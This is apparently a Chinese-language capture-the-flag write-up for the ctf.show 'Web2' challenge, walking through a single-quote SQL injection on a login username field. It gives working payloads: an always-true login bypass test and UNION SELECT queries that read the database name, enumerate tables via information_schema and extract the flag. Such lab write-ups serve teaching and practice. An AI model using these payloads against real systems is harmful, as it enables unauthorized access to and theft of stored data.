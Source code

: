 ```yaml
---
title: "Web2  @WEB"
date: 2023-07-22
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 经典SQL注入

先使用万能密码测试对用户命参数进行sql注入测试，查看是否有回显

```sql
a' or true #（恒成立）/ a' or false # （恒不成立）
```

![](/ctf.show/7/1.webp)

通过测试确定可以用户名模块可以通过参数来控制SQL语句的执行结果，所以存在SQL注入漏洞，且注入为单引号字符型注入，能直接回显所以使用 联合注入。

联合注入：

```sql
1、查询数据库名称:
a' union select 1,database(),3 #
```

![](/ctf.show/7/2.webp)

```sql
2、查询到数据库名称后查看数据库中的表
a' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3 #
```

![](/ctf.show/7/3.webp)

```sql
3、查询到表名后查看表中的内容，成功拿到flag
a' union select 1,(select flag from flag),3 #
```

![](/ctf.show/7/4.webp)





